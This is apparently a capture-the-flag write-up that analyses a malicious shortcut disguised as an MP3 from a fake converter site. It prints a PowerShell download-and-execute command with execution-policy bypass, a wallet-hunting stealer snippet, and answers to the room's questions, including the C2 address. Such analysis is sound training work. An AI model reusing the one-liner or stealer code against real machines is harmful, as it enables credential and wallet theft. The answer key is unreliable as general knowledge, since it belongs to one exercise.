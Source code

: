# Day 1: OPSEC

## Learning Objectives
- Investigate malicious link files.
- Understand OPSEC principles and common mistakes.
- Learn how to track digital identities in cyber investigations.

---

## Introduction
Operational Security (OPSEC) refers to tactics used to protect sensitive information from adversaries. In this challenge, we investigate a suspicious YouTube-to-MP3 converter website shared among SOC-mas organizers after reports of malicious behavior.

---

## Investigating the Website

### Risks of YouTube-to-MP3 Converters
These websites often pose significant risks, such as:
- **Malvertising:** Exploiting vulnerabilities via malicious ads.
- **Phishing Scams:** Tricking users into revealing sensitive information.
- **Bundled Malware:** Distributing malware disguised as legitimate files.

---

## File Analysis

### Extracted Files
After downloading from the website, two files were extracted: `song.mp3` and `somg.mp3`. The unusual filename `somg.mp3` raised suspicion.

#### Analyzing `song.mp3`
```bash
file song.mp3
```
Output:
```
Audio file with ID3 version 2.3.0...
```
This file appears to be a legitimate MP3 audio file.

#### Analyzing `somg.mp3`
```bash
file somg.mp3
```
Output shows suspicious metadata indicating a PowerShell command embedded within the file.

---

## Metadata Analysis with Exiftool
Using `exiftool`, we uncover additional details about `somg.mp3`:

```bash
exiftool somg.mp3
```

Key findings include:

- **Relative Path:** `..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
  - *Why it’s suspicious:* The relative path points to the PowerShell executable, which is often used by attackers to execute malicious scripts or commands on a victim's system. This suggests that the file is designed to invoke PowerShell as part of its payload.

- **Command Line Arguments:**
  ```plaintext
  -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
  ```
  - *Why it’s suspicious:* 
    - **`-ep Bypass`**: Disables PowerShell's execution policy, allowing potentially unsafe scripts to run.
    - **`-nop`**: Suppresses warnings, making detection harder.
    - **`(New-Object Net.WebClient).DownloadFile(...)`**: Downloads a malicious script (`IS.ps1`) from a remote server.
    - **`iex (Get-Content ...)`**: Executes the downloaded script in memory without saving it to disk, which is a common evasion technique used by attackers.
    
    This behavior indicates a Command-and-Control (C2) operation where stolen data could be exfiltrated or additional payloads executed remotely.

- **Machine ID:** `win-base-2019`
  - *Why it’s relevant:* This metadata reveals the operating system environment in which the malicious file was created or tested. It provides insight into the attacker's setup and can be used for attribution.

These metadata fields collectively indicate that `somg.mp3` is not a legitimate file but instead a malicious payload designed to execute a PowerShell script, potentially compromising the victim's system.

---

## Malicious PowerShell Script
The script attempts to steal sensitive information such as cryptocurrency wallets and browser credentials. Below is a snippet of the malicious script:

```powershell
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}
```

The script is designed to:
1. Print ASCII art for attribution.
2. Search for cryptocurrency wallet files and browser credentials.
3. Send stolen data to a Command-and-Control (C2) server.

---

## OPSEC Mistakes
This case highlights several common OPSEC failures by attackers:

1. **Reusing Identifiable Metadata**:
   - Metadata in `somg.mp3` revealed critical details such as machine ID (`win-base-2019`) and working directory (`C:\Windows\System32\WindowsPowerShell\v1.0`). These details could be used for attribution or tracking back to the attacker’s environment.

2. **Posting Sensitive Details Publicly**:
   - The attacker left traces on GitHub, exposing their identity ("M.M.") and intentions. For example, their GitHub repository hosted the malicious script (`IS.ps1`) used in this attack.

3. **Failing to Use Anonymization Tools**:
   - Lack of proper anonymization, such as VPNs or proxies, allowed investigators to trace their activities more easily.

---

## Questions & Answers

1. **Who is the author of `song.mp3`?**
   - Tyler Ramsbey

2. **What is the URL of the C2 server?**
   - http://papash3ll.thm/data  
     ![C2 Server URL](images/C2-Server-URL.png)  
     *Figure 1: Output showing the C2 server URL from metadata analysis.*

3. **Who is M.M.?**
   - Mayor Malware

4. **What is the number of commits on the GitHub repo where the issue was raised?**
   - 1  
     ![GitHub Profile Screenshot](images/github-commits.png)  
     *Figure 2: Output shows the number of commits (+1).*

---

## Conclusion
This challenge demonstrates how poor OPSEC practices can expose attackers' identities and operations. By analyzing suspicious files and investigating metadata, cybersecurity professionals can uncover critical evidence in cyber investigations.

---